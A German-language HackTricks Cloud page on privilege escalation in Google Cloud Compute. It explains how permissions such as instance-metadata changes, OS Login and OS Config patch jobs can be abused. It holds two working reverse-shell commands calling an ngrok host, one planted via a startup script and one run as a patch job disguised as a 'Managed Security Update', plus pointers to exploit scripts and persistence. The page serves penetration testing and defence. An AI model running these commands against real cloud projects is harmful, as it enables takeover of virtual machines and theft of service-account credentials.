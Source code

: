 # GCP - Compute Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP siehe:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachte, dass du für die Durchführung aller Privilegieneskalationsangriffe, die eine Änderung der Metadaten der Instanz erfordern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über das an die Instanz angehängte SA benötigst**, selbst wenn das SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung kannst du die **Metadaten**-Informationen einer **Instanz** **ändern** und die **autorisierte Schlüssel eines Benutzers** **ändern** oder einen **neuen Benutzer mit sudo**-Berechtigungen **erstellen**. Daher wirst du in der Lage sein, über SSH in jede VM-Instanz zu exec und das GCP-Servicekonto zu stehlen, mit dem die Instanz läuft.\
Einschränkungen:

* Beachte, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr eingeschränkten Geltungsbereich** haben.
* Du musst **in der Lage sein, den SSH**-Server zu kontaktieren, um dich anzumelden.

Für weitere Informationen darüber, wie du diese Berechtigung ausnutzen kannst, siehe:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Du könntest diesen Angriff auch durchführen, indem du ein neues Startskript hinzufügst und die Instanz neu startest:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt die **gleichen Privilegien wie die vorherige Berechtigung**, jedoch über spezifische Instanzen anstelle eines gesamten Projekts. Die **gleichen Exploits und Einschränkungen wie im vorherigen Abschnitt gelten**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, **sich selbst eine Rolle mit den vorherigen Berechtigungen zu gewähren** und Privilegien durch deren Missbrauch zu eskalieren.

### **`compute.instances.osLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie **werden keine Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie werden **Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Dienstkonto zu erstellen und das Token** des Dienstkontos zu stehlen, indem man auf die Metadaten zugreift, um die Privilegien zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder eine Bereitstellung**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dies ermöglicht es Ihnen, lateral in der Umgebung zu bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts zu erlangen.

Beachten Sie, dass Sie im Moment **keine `actAs`-Berechtigung** über das an die Instanz angehängte SA benötigen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [**Patch-Job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **oder** [**eine Bereitstellung**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** erstellen.**\
Für einen Patch-Job führen Sie aus:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Um ein Patch-Deployment bereitzustellen:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Das Tool [patchy](https://github.com/rek7/patchy) konnte in der Vergangenheit für das Ausnutzen dieser Fehlkonfiguration verwendet werden (aber jetzt funktioniert es nicht mehr).

**Ein Angreifer könnte dies auch für Persistenz ausnutzen.**

### `compute.machineImages.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für das Compute-Image.

### `compute.snapshots.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für einen Festplattensnapshot.

### `compute.disks.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Folgen Sie diesem Link, um einige [**Ideen zur Umgehung von Zugriffsberechtigungen**](../) zu finden.

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
